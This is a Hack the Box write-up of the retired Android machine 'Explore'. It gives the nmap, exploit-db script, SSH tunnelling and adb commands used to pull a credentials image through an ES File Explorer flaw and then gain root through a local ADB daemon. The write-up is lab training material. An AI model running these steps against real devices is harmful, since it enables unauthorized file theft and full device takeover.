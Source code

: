 ```yaml
---
title: Explore - Hack the Box Write-Up
published: true
---
```

**Difficulty**: Easy. **OS**: Android.

Explore is a recently retired machine from Hack the Box. Intrusion was quite simple but privilege escalation has some interesting things for keep in the arsenal.

Let's go.

### Intrusion

We start as always with recognition and enumeration phase with nmap. The victim's IP address is 10.10.10.247.

```
nmap -p- --min-rate=5000 -Pn -v -oN allPorts 10.10.10.247
```
![](./media/explore/recon.png)
Ports 2222, 42135, 46103, 59777 were found open. Let's check what's going on in these ports.

```
sudo nmap -p2222,42135,46103,59777 -sC -sV 10.10.10.247 -oN targeted
```
![](./media/explore/enum1.png)
![](./media/explore/enum2.png)

On port 42135 is running an ES File Explorer server which is a file manager for Android devices. A exploit for this service was found on exploit-db. This exploit is written in Python.

![](./media/explore/exploit.png)

This exploit tramitates http requests to the ES File Explorer server to list or download files. The usage of the exploit is:

```
python3 50070.py <command> <IP-address> [file to download]
```

Doing some exploration in the files of the device I found some interesting thing on pictures folder:

```
python3 50070.py listPics 10.10.10.247
```
![](./media/explore/listpics.png)

I've downloaded this picture to my local machine, it has some credentials on it.
```
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```
![](./media/explore/credentials.png)

These credentials were useful to login via SSH to the victim's machine.

![](./media/explore/ssh.png)

Ok, intrusion done, we see user's flag.

![](./media/explore/user-flag.png)


### Privilege Escalation

Once inside the machine a daemon was found in listen on port 5555 executed by "shell" user. This port was found filtered in the nmap scanning, so this daemon must be on listen on localhost. The shell UID is reserved for development and testing apps.
```
netstat -ape
```

![](./media/explore/nepstat.png)

Doing a little research in duckduckgo I found that port 5555 is usually related to Android Debug Bridge (ADB), a service that allows connections to Android devices to install packages and evaluate changes ([https://source.android.com/setup/build/adb](https://source.android.com/setup/build/adb)). 

In fact, the binary of ADB (adbd) is running by "shell" user.
```
ps -A | grep "adbd"
```
![](./media/explore/ps.png)

To gain access to this service I've done 2 things.

*  Install adb client on my local machine.

```
sudo apt-get install adb
```

*  Tunnelize the connection via SSH. By doing this the port 5555 of the Android device will be forwarded to the port 5555 of my local machine.

```
ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
```

Once the connection via SSH was done, some configuration to adb client was needed (This configuration was done in my local machine). First, the port of connection was configured to port 5555.

```
adb tcpip 5555
```

Then the connection was established to ADB service.

```
adb connect 127.0.0.1:5555
```

ADB client allows to restart the adbd daemon with root permissions.

```
adb -s 127.0.0.1:5555 root
```

At this point the daemon is running with root privileges. This was checked on the SSH session.

```
netstat -ape
```
![](./media/explore/daemon-root.png)

At this point a shell with root privileges was obtained with adb client (On the local machine).

```
adb -s 127.0.0.1:5555 shell
```
![](./media/explore/rooted.png)

Now we see the root flag.

![](./media/explore/root-flag.png)

Machine owned!

### Conclusion

Although the machine was quite easy, I've learned some things that will keep in the arsenal when I have to deal again with a Android device, specially the privilege escalation stage, Android directories and dealing with processes and connections.

